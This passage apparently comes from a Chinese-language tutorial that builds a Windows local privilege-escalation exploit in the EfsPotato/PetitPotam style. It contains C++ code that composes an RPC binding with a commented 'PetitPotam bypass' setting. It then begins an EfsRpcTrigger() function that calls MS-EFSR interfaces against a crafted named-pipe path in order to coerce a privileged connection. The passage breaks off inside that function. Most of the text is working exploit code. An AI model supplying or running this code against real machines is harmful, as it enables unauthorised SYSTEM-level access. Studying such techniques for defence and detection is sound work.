 ```c++
    *hBinding = NULL;

    RpcStatus = RpcStringBindingComposeW(ObjUuid, ProtSeq, NetworkAddr, Endpoint, Options, &StringBinding);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringBindingComposeW() Error: %i\n", GetLastError());
        return status;
    }


    RpcStatus = RpcBindingFromStringBindingW(
        StringBinding,    // Previously created string binding
        hBinding    // Output binding handle
    );
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingFromStringBindingW() Error: %i\n", GetLastError());
        return status;
    }

    // PetitPotam bypass via RPC_C_AUTHN_LEVEL_PKT_PRIVACY: https://github.com/zcgonvh/EfsPotato/pull/5
    RpcStatus = RpcBindingSetAuthInfoW(*hBinding, NetworkAddr, RPC_C_AUTHN_LEVEL_PKT_PRIVACY, RPC_C_AUTHN_GSS_NEGOTIATE, 0, RPC_C_AUTHZ_NONE);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingSetAuthInfoW() Error: %i\n", GetLastError());
        return status;
    }

    RpcStatus = RpcBindingSetOption(*hBinding, 12, 5000000);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcBindingSetOption() Error: %i\n", GetLastError());
        return status;
    }

    RpcStringFreeW(&StringBinding);
    if (RpcStatus != RPC_S_OK) {
        printf("[-] RpcStringFreeW() Error: %i\n", GetLastError());
        return status;
    }

    status = (RpcStatus == RPC_S_OK);
    return status;
}
```

（3）编写 `EfsRpcTrigger()` 函数，在该函数的内部将调用 MS-EFSR RPC 接口中的函数来打开命名管道 `\\localhost/pipe/petit\C$\wh0nqs.txt`，客户端会自动将连接的管道路径转换为 `\\\\.\\pipe\\petit\\pipe\\srvsvc`，也就是前面  `LaunchNamedPipeServer()` 函数创建的管道。并且，`EfsRpcTrigger()` 中包含了所有 MS-EFSR 接口中能够利用的函数，他们大都可以实现与 `EfsRpcOpenFileRaw()` 函数类似的效果。

```c++
void EfsRpcTrigger(RPC_BINDING_HANDLE hBinding, DWORD efsId)
{
    RpcTryExcept
    {
        // Invoke remote procedure here
        LPWSTR PipeFileName;
        long result;

        PipeFileName = (LPWSTR)LocalAlloc(LPTR, MAX_PATH * sizeof(WCHAR));
        StringCchPrintfW(PipeFileName, MAX_PATH, L"\\\\localhost/pipe/petit\\C$\\wh0nqs.txt");


        if (efsId == 0)
        {
```